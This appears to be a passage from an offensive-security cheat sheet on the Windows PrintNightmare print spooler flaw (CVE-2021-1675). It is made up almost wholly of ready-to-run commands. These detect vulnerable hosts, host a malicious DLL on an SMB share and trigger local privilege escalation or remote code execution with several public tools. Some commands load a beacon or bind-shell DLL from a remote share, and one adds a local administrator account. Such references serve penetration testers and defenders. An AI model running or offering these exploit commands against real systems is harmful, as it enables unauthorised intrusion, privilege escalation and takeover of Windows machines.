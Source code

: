 
**Detect the vulnerability**:
* Impacket - [rpcdump](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py)
  ```ps1
  python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
  Protocol: [MS-RPRN]: Print System Remote Protocol
  ```
* [It Was All A Dream](https://github.com/byt3bl33d3r/ItWasAllADream) 
  ```ps1
  git clone https://github.com/byt3bl33d3r/ItWasAllADream
  cd ItWasAllADream && poetry install && poetry shell
  itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
  docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
  ```

**Trigger the exploit**: 

**NOTE**: The payload can be hosted on Impacket SMB server since [PR #1109](https://github.com/SecureAuthCorp/impacket/pull/1109): `python3 ./smbserver.py share /tmp/smb/` or using [Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer/blob/main/Invoke-BuildAnonymousSMBServer.ps1) : `Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer -Path C:\Share -Mode Enable`

* [SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)
  ```powershell
  # require a modified Impacket: https://github.com/cube0x0/impacket
  python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
  python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
  ## LPE
  SharpPrintNightmare.exe C:\addCube.dll
  ## RCE using existing context
  SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
  ## RCE using runas /netonly
  SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
  ```
* [Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)
  ```powershell
  ## LPE only (PS1 + DLL)
  Import-Module .\cve-2021-1675.ps1
  Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
  Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
  Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
  ```
* [Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)
  ```powershell
  ## LPE
  misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
  ## RCE
  misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
  ```
* [PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)
  ```powershell
  PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
  ```
